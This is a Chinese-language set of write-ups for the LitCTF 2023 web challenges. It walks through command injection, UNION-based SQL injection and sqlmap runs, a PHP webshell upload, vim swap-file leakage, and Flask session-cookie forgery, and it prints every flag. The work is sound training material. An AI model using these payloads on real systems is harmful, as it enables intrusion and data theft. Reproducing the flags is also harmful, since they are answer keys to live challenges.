# 【LitCTF-2023】Web题目 WriteUp 合集

**题目链接：**

- [[LitCTF 2023]我Flag呢？](https://www.nssctf.cn/problem/3861)            [WriteUp](#litctf-2023我flag呢)
- [[LitCTF 2023]就当无事发生 ](https://www.nssctf.cn/problem/3862)            [WriteUp](#litctf-2023就当无事发生)
- [[LitCTF 2023]导弹迷踪 ](https://www.nssctf.cn/problem/3863)            [WriteUp](#litctf-2023导弹迷踪)
- [[LitCTF 2023]Follow me and hack me](https://www.nssctf.cn/problem/3864)            [WriteUp](#litctf-2023follow-me-and-hack-me)
- [[LitCTF 2023]Ping](https://www.nssctf.cn/problem/3873)            [WriteUp](#litctf-2023ping)
- [[LitCTF 2023]1zjs](https://www.nssctf.cn/problem/3871)            [WriteUp](#litctf-20231zjs)
- [[LitCTF 2023]作业管理系统 ](https://www.nssctf.cn/problem/3867)            [WriteUp](#litctf-2023作业管理系统)
- [[LitCTF 2023]PHP是世界上最好的语言！！](https://www.nssctf.cn/problem/3865)            [WriteUp](#litctf-2023php是世界上最好的语言)
- [[LitCTF 2023]Vim yyds](https://www.nssctf.cn/problem/3866)            [WriteUp](#litctf-2023vim-yyds)
- [[LitCTF 2023]这是什么？SQL ！注一下 ！](https://www.nssctf.cn/problem/3868)            [WriteUp](#litctf-2023这是什么sql-注一下-)
- [[LitCTF 2023]Flag点击就送！](https://www.nssctf.cn/problem/3872)            [WriteUp](#litctf-2023flag点击就送)
- [[LitCTF 2023]彩蛋](https://www.nssctf.cn/problem/3870)            [WriteUp](#litctf-2023彩蛋)

## 【LitCTF 2023】我Flag呢？

### 题目知识标签

信息收集、源码泄漏、代码审计

### WP

直接代码审计F12或CTRL+U查看源代码



在代码注释找到flag
### FLAG

NSSCTF{91737e4e-5797-4afb-80de-e6ec1c8f0177}

### CTF所用工具总结

- 浏览器
### 难度

※（一颗星，送分）

## 【LitCTF 2023】就当无事发生 

### 题目知识标签

.git泄露、信息收集

### WP



在题目描述页面可以发现一个GitHub page
根据下面的描述可以了解到作者不小心（并非）将flag推送到了仓库 但后来又重新部署 可以猜测到flag存在于仓库的历史版本

根据GitHub page的特点 可以很快找到作者github主页
从而找到对应的github仓库

::github{repo="ProbiusOfficial/ProbiusOfficial.github.io"}



在仓库的commits中可以找到历史推送
经过查找 可以找到历史推送遗留的flag


### FLAG

NSSCTF{g1thub\_c0mmit\_1s\_s0\_us3ful}

### CTF所用工具总结

- 浏览器
### 难度

※※（两颗星，超简单）

## 【LitCTF 2023】导弹迷踪 

### 题目知识标签

JS分析、信息收集、源码泄漏

### WP

根据题目描述可知 我们可以分析js得出flag 也可以玩到第六关得出flag


**方法一：**

玩到第六关，然后拿到flag

**方法二：**

代码审计 我们可以发现有好几个 关于游戏类的js


我们可以根据名称大致筛选出更有可能藏有flag的js进行分析
这里根据名称 猜测出藏在src/main.js src/game.js中

于是开始分析js文件

打开src/game.js文件
思路：当我们玩到第六关的时候会弹出flag 所以我们可以猜测他有个变量存储关卡 然后判断变量值是否为6 同时 游戏一般以level来表示关卡数 我们便可以猜测变量名称与level相关

所以我们在js文件中检索"if(xxxx === 6)"类似的东西
我这里直接在js文件中搜索6 很幸运的直接找到了flag


### FLAG

NSSCTF{y0u\_w1n\_th1s\_!!!}

### CTF所用工具总结

- 浏览器
### 难度

※※（两颗星，超简单）

## 【LitCTF 2023】Follow me and hack me

### 题目知识标签

HTTP协议、POST注入、源码泄漏
### WP



我们发现按钮不能使用 打开开发者工具进行代码审计
可以发现这个题就没打算让大家用按钮



不过我们可以直接对页面进行传参
我们可以使用hackbar插件


直接用hackbar进行post请求 同时传入get参数
输入完之后直接EXECUTE 得到flag

### FLAG

NSSCTF{53c511ed-8493-4622-b87d-f5f1fdbc5013}

### CTF所用工具总结

- 浏览器
- HackBar插件
### 难度

※※（两颗星，超简单）

## 【LitCTF 2023】Ping

### 题目知识标签
RCE、前端绕过、Linux命令

### WP



我们尝试ping一下127.0.0.1



我们可以猜测到当我们输入“127.0.0.1”时 被拼接为“ping 127.0.0.1"
根据Linux的特点 我们可以使用命令连接符 然后运行我们想要的指令

关于**linux命令连接符**：

Linux命令连接符主要有以下几种：

- `;`（分号）：表示顺序执行，每个命令执行完毕后继续执行下一个命令。
- `&&`（逻辑与）：表示顺序执行，只有前一个命令执行成功后，才会执行下一个命令。
- `||`（逻辑或）：表示顺序执行，只有前一个命令执行失败后，才会执行下一个命令。
- `&`（与符号）：表示在后台执行命令。
- `|`（管道符号）：表示将前一个命令的输出作为输入传递给下一个命令。

我们可以使用“||”连接我们先要的命令

当我们传入"127.0.0.1 || ls /" 命令会被拼接为“ping 127.0.0.1 || ls /” 运行“ls /”命令
于是进行尝试


这里可以了解到他进行了前端的验证
不过我们可以通过修改数据包或禁用js脚本进行发送数据

这里使用burp suite

我们先输入正常ip绕过js验证 然后抓取数据包修改


抓取到数据包后 我们修改post里面的内容

将“127.0.0.1”改为“127.0.0.1 || ls /“


ok 我们这里发现命令运行成功而且正常回显
我们发现目录根目录中有个flag文件
使用cat命令读取

使用同样的方法将cat命令拼接进去“||cat /flag”


### FLAG

NSSCTF{f2166a2a-76f5-451c-8396-e2a445df2afe}

### CTF所用工具总结

- 浏览器
- burp suite
### 难度

※※※（三颗星，简单）

## 【LitCTF 2023】1zjs
### 题目知识标签
JS分析、信息收集、代码审计

### WP

代码审计可以找到一个js
分析js



找到了一个名为 /f@k3f1ag.php 的文件



（f@k3我还以为是fake 以为找错了 实际上是Fuck的意思 意为JSFuck编码）
打开发现如下内容



全部是由\[\] + ! ()组成  
看似毫无意义 但flag却正在如此

由亲爱的百度先生可以了解到这是jsfuck编码  
（是我孤陋寡闻了）

JSFuck是基于JavaScript原子部分的深奥和教育性编程风格。它仅仅使用六个不同的字符来编写和执行代码。

由csdn可知  
它不依赖于浏览器，因此可以在Node.js上运行。

方法一：直接在控制台运行


方法二：解码网站


### FLAG

NSSCTF{a07be3a8-e644-4683-bd14-57ff63c7e21e}

### CTF所用工具总结

- 浏览器
- burp suite
### 难度

※※※※（四颗星，一般）

## 【LitCTF 2023】作业管理系统

### 题目知识标签
文件上传、弱口令、RCE

### WP

打开题目发现是登录页面
代码审计可以发现账号密码



输入账号密码进行登录



在上传文件页面进行一句话木马上传
上传成功之后使用蚁剑连接


在根目录可以找到flag文件得取flag



### FLAG

NSSCTF{b93762f3-5377-481f-85e1-54d696776843}

### CTF所用工具总结

- 浏览器
- AntSword
### 难度

※※※（三颗星，简单）

## 【LitCTF 2023】PHP是世界上最好的语言！！

### 题目知识标签
RCE、PHP、无参RCE

### WP

题目简介提示：Flag位于根目录
思路就是找根目录里面的flag文件


根据页面提示 **RUN CODE** 提示我们框内应为什么命令
我们尝试运行php代码


发现可以运行 通过Linux命令 ls / 和cat来查看flag文件得到flag



### FLAG

NSSCTF{5c5b0c25-526d-4fb2-8fe8-82a44b59a673}

### CTF所用工具总结

- 浏览器
### 难度

※※※（三颗星，简单）

## 【LitCTF 2023】Vim yyds

### 题目知识标签
vim泄漏、RCE、源码泄漏

### WP

题目打开提示vim


这边可以猜测vim泄露 文件后缀为.swp 即index.php.swp
如果我们不知道也可以用 **dirsearch** 工具进行扫描



指令为 dirsearch -u {目标url}
可以扫描出index.php.swp文件 这里尝试访问
下载到目标文件 使用010 editor打开分析



分析代码得出payload



使用post请求 传参
cmd={linux命令}&password=R2l2ZV9NZV9Zb3VyX0ZsYWc=
使用ls / 找到根目录flag文件
使用cat /flag 读取文件得到flag


### FLAG

NSSCTF{26723c05-e07b-44bd-a6c0-e9949452abcb}

### CTF所用工具总结

- 浏览器
- hack bar
- dirsearch
- 010 editor
### 难度

※※※※（四颗星，一般）

## 【LitCTF 2023】这是什么？SQL ！注一下 ！

### 题目知识标签
SQL注入、时间盲注、布尔盲注

### WP

**方法一：手动注入**

这题目比较简单 直接把Key Source给出

```php
<?php
$sql = "SELECT username,password FROM users WHERE id = ".'(((((('.$_GET["id"].'))))))';
$result = $conn->query($sql);
```

Executed Operations:
```sql
SELECT username,password FROM users WHERE id = (((((())))))
```

我们可以直接得出是字符型 然后需要“))))))”进行闭合
而且可以由 SELECT **username,password** FROM 得出字段长度为 2 

接下来就要判断注释符

尝试 “--”：

查询出错 注释符不是“--”

尝试“#”：

查询成功 注释符是"#"

接下来就可以依次构建payload
手动注入可以使用hackbar内预设语句

查库payload
```sql
?id=1)))))) union select 1,group_concat(schema_name) from information_schema.schemata %23
```



查库 长度和回显位置 这个题测试后发现1和2位置都能进行回显
直接execute 发现查询失败 分析查询语句



我们可以发现 hackbar 中的 # 被忽略
这边使用 # 的url编码即可



查询到以下数据库
information_schema,mysql,ctftraining,performance_schema,test,ctf

然后就是常规的查表查列查数据 不进行过多解释了
这里选择ctftraining数据库 它名称比较可疑 如果不是可以再进行其他数据库尝试

查表payload
```sql
?id=1)))))) union select 1,group_concat(table_name) from information_schema.tables where table_schema="ctftraining" %23
```


找到了一个名为flag的表
查列payload

```sql
?id=1)))))) union select 1,group_concat(column_name) from information_schema.columns where table_name='flag' and table_schema='ctftraining' %23
```


接下来直接查询数据即可
查数据payload

```sql
?id=1)))))) union select 1,flag from ctftraining.flag %23
```



得出flag

**方法二：sqlmap注入**

直接查库

```shell
python sqlmap.py -u http://node5.anna.nssctf.cn:23615/?id=1 --dbs
```



查表

```shell
python sqlmap.py -u http://node5.anna.nssctf.cn:23615/?id=1 -D ctftraining --tables
```

（触发时间盲注 速度较慢）



查列

```shell
python sqlmap.py -u http://node5.anna.nssctf.cn:23615/?id=1 -D ctftraining -T flag --columns
```

（触发时间盲注 速度较慢）



查询数据

```shell
python sqlmap.py -u http://node5.anna.nssctf.cn:23615/?id=1 -D ctftraining -T flag -C flag --dump
```

（触发时间盲注 速度较慢）


### FLAG

NSSCTF{24cbda17-c360-4112-9ba3-93cb9798dfea}

### CTF所用工具总结

- 浏览器
- hack bar
- sqlmap
### 难度

※※※※（四颗星，一般）

## 【LitCTF 2023】Flag点击就送！

### 题目知识标签
Cookie伪造、Flask、Ejs

### WP

打开随便输入个名字
点击拿flag提示只有管理员才能拿flag



返回初始页面
输入admin 提示你并非管理员


我们可以由此判断出管理员名称为admin
我们输入任意值后 在拿flag分析数据包
找到了cookie值中 存在session值
`eyJuYW1lIjoiMSJ9.aRiRSQ.qRcMu-i6fQDODuj7-p9g4N4ZOM8`

分析session值 进行base64解密


发现session是被加密过的base64数据 于是分析框架以做到session数据的处理
我们可以猜测这个题应该是构造admin的session拿flag
通过**Wappalyzer**插件分析网站框架为**Flask**


根据flask框架特点 我们可以发现他会创建一个密钥进行加密
我们要爆破出密钥 这里使用**flask-unsign**工具进行爆破

```shell
flask-unsign --unsign --cookie "cookie" -w "wordlist file" --no-literal-eval 
```

发现我们使用常见的字典后无法破解



而题目也不会这么难
于是我们根据题目相关信息进行密钥猜测


发现密钥就是**LitCTF**
根据此密钥 我们使用 **flask-session-cookie-manager** 工具构造session

```shell
python flask_session_cookie_manager3.py encode -s "LitCTF" -t "{'name':'admin'}"
```



得到构造后的session为`eyJuYW1lIjoiYWRtaW4ifQ.aRiYLQ.1chaPrijlkgD2V9KFs1-yD-5lCY`

我们使用 **burp suite** 将所得的session值封装到数据包中


发送数据包拿到flag


### FLAG

NSSCTF{ee937afc-f3de-42c3-a86a-dfa71382429f}

### CTF所用工具总结

- 浏览器
- flask-unsign
- Wappalyzer
- burp suite
- flask-session-cookie-manager
### 难度

※※※※※※（六颗星，难）

## 【LitCTF 2023】彩蛋

### 题目知识标签
其他
### WP

题目提示：彩蛋分布于 我Flag呢 Follow me and hack me 作业管理系统 狠狠的注入 四个题目 中

**part1**（我Flag呢）


在控制台页面发现彩蛋提示
输入对应提示指令`giveMeEgg()`得到第一部分



LitCTF{First\_t0\_The\_k3y!（1/?）

**part2**（Follow me and hack me）

在我们完成这道题的时候 有一行绿的提示


于是我们测试备份文件名称 使用 **dirsearch** 查询目录

```shell
python dirsearch.py -u http://node5.anna.nssctf.cn:28775/
```


下载目录中的 `www.zip` 文件



分析文件
我们可以在`index.php.bak`文件中找到这一部分flag


\_R3ady\_Pl4yer\_000ne\_ (3/?)

**part3**（作业管理系统）

依旧登录系统
在文件上传页面发现远程下载示例


打开示例链接 获得此部分flag



\_S0\_ne3t? (2/?)

**part4**（狠狠的注入）

在我们做这个题的时候 还有一个名为ctf的数据库
对这个数据库进行查表

查表payload
```sql
?id=1)))))) union select 1,group_concat(table_name) from information_schema.tables where table_schema="ctf" %23
```



查列payload

```sql
?id=1)))))) union select 1,group_concat(column_name) from information_schema.columns where table_name='users' and table_schema='ctf' %23
```


查数据payload

```sql
?id=1)))))) union select username,password from ctf.users %23
```


得到此部分flag （当然可以用**sqlmap**）

F1rst\_to\_Th3\_eggggggggg!} (4/4)

**合并四个部分flag**得到最后flag

NSSCTF{First\_t0\_The\_k3y!\_S0\_ne3t?\_R3ady\_Pl4yer\_000ne\_F1rst\_to\_Th3\_eggggggggg!}

### FLAG

NSSCTF{First\_t0\_The\_k3y!\_S0\_ne3t?\_R3ady\_Pl4yer\_000ne\_F1rst\_to\_Th3\_eggggggggg!}

### CTF所用工具总结

- 浏览器
- dirsearch
- sqlmap
### 难度

※※※※（四颗星，一般）

---

## 总结

这套题总体难度比较简单，而且还挺有趣的，适合Web新手入门，去多方位了解Web题的不同解题角度，题目的writeup可以当作思考路线，题目质量不错，值得一做~~